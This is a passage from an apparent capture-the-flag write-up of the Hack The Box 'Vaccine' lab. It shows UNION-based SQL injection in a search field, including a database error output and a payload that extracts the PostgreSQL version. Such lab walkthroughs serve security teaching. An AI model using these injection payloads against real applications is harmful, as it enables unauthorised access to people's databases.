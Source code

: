 
- Well, we've found an error at the first column that state:
	- `ERROR:  invalid input syntax for integer: "a"
LINE 1: ...ect \* from cars where name ilike '%' UNION SELECT 'a',NULL,N...`

![1](/assets/images/htb/vaccine/13.png)

> If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:
> `Conversion failed when converting the varchar value 'a' to data type int.`

- The rest of it. Work Fine

# <u>2:Foothold/Gaining Access</u>

### <u>The Version of database</u>

- Let's get the database version by inserting this in search field:
- `' UNION SELECT NULL,VERSION(),NULL,NULL,NULL--`
- The result
